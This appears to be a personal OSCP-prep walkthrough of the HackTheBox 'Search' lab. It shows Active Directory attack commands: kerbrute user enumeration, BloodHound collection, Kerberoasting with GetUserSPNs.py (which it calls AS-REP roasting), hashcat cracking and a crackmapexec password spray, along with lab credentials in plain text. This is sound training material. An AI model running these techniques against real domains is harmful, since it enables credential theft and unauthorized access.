

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/HackTheBox/Search/index.html · generator: mkdocs

# Search
```
10.10.11.129
```


Hostname: `RESEARCH`
Domain name: `search.htb`

kerbrute found some valid user names:

```
administrator@search.htb
research@search.htb
```

Hope Sharp
IsolationIsKey?

Using different permutations of her name in a wordlist combined with `kerbrute` we were able to find a valid username of `hope.sharp`

![[Pasted image 20220712230945.png]]

Then we run bloodhound

```
bloodhound-python -u hope.sharp -p "IsolationIsKey?" -d search.htb -ns 10.10.11.129
```

we then pull this into bloodhound and find an account that is vulnerable to AS-REP Roasting

```
GetUserSPNs.py search.htb/hope.sharp:"IsolationIsKey?" -outputfile web_svc_kerberos
```

and then crack the hash

```
hashcat web_svc_kerberos /usr/share/wordlists/rockyou.txt
```

Which give us the following set of creds.

```
web_svc
```

```
@3ONEmillionbaby
```

Now we have a list of users in bloodhound. We did some magic with powershell to extract the usernames:

start powershell
```
pwsh
```

import the users.json file
```
$json = gc ./20220712232201_users.json | ConvertFrom-Json
```


pull out the username and strip the `@search.htb`, save this to a file `users-ad.txt`
```
$json.data.Properties.name |%{$_.split("@")[0]} | Sort-Object -Unique > users-ad.txt
```

Then we check the username list for password reuse:

```
crackmapexec smb search.htb -u users-ad.txt -p "@3ONEmillionbaby"
```

It looks like `EDGAR.JACOBS` is using the same password.
